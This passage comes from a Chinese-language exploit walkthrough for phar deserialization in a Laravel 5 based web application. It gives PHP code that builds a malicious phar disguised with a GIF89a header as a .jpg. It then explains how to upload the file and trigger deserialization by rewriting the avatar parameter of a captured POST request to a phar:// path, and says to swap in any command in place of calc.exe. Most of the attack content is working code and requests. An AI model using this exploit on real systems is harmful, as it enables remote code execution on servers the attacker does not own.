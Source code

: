 ```php
        $this->files = array(new View());
    }
}
//echo urlencode(serialize(new WindowsPipes()));
$exp=new WindowsPipes();
//echo base64_encode(serialize($exp));
@unlink("laravel5_exp.phar");
$phar = new Phar("laravel5_exp.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($exp); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

运行后得到`laravel5_exp.phar`文件，重命名为`laravel5_exp.jpg`。

> 如果要自定义命令，请将内容中的`calc.exe`全部替换成自定义命令。保持统一。

4. **上传phar文件**

在**相同游览器**访问`http://localhost:19980/`页面，选择并上传`laravel5_exp.jpg`文件。

![document_image_rId19.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-20ce197bbd7357a160b5a26c3698b9273273db1a.png)

上传后得到路径`\/data\/file\/2023\/09\/22\/28396_a9tq_5362.jpg`

![document_image_rId20.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-172ad104e2a20ebe4d4318b7c6c3b0d342bbc6e7.png)

5. **触发phar协议造成反序列化**

[http://localhost:38201/member\_profile/avatar](http://localhost:38201/member_profile/avatar)

![document_image_rId21.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-1c8be8183ece33f2cb4daf3e51798a0b389dd23a.png)

任意上传一张图片并进行抓包修改。  
原始数据包：

![document_image_rId22.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-1dda0ca7aec95d12dbd8b2b5ee45c8e7423d5e10.png)

修改`type`为空，`avatar`为phar协议，路径为上个步骤获取的路径。  
修改后：

![document_image_rId23.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-79b47e2938e232c98f0ba91a6cc1be8bad9ba570.png)

数据包：

```php
POST /member_profile/avatar HTTP/1.1
Host: localhost:38201
Content-Length: 62
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:38201
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:38201/member_profile/avatar
Accept-Encoding: gzip, deflate
```